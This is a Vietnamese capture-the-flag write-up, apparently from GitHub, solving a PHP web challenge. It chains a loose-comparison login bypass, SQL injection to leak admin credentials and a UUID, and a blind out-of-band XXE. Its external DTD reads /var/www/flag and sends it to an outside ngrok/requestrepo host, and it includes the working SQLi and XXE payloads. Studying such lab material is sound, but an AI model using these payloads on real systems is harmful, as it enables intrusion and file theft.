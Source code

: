Bài này cho source mấy bạn có thể dựng lại để làm

Đọc file robots.txt , ta biết được flag ở vị trí `/var/www/flag`




file `login.php` nếu ta cung cấp 1 username không tại và password là 1 array thì ta có thể bypass được chức năng login. Do lỗi loose compare trong php (`==`)

![](2022-06-25-10-05-39.png)


bypass login 

![](2022-06-23-08-38-38.png)

sau khi login thành công, thì ta có thể lấy được username,password của admin thông qua lỗi sqli in `data.php` file via `u` param

![](2022-06-25-10-09-31.png)

![](2022-06-23-08-43-51.png)

Sau đó ta login với username,password của admin thì có thêm 1 chức năng ở trong file [read.php](read.php)

![](2022-06-25-10-12-28.png)
Ta thấy ở đây dính lỗi XXE ở dòng 19, nhưng mà để XXE được thì ta cần có giá trị của `UUID`

![](2022-06-25-10-20-10.png)

leak uuid thông qua lỗi sqli ở trên 

![](2022-06-23-08-39-22.png)

```
payload: data.php?u='union select group_concat(uuidkey) from secretkeys -- -

```
có uuid => xxe (oob load dtd external) vì xxe ở chỗ này không trả về response nên ta cần sử dụng oob , và ta để ý thêm ở dòng 19 nó cho phép load 1 external DTD 

![](2022-06-23-08-41-25.png)

payload: `data=urlencode(<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://7ec7-2402-800-9c00-833c-dbd-e51d-d508-493a.ngrok.io/abc.dtd"> %xxe;]>)`

file abc.dtd in local 

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/var/www/flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://ucxmnvwb.requestrepo.com?x=%file;'>">
%eval;
%exfiltrate;
```
ref:
https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band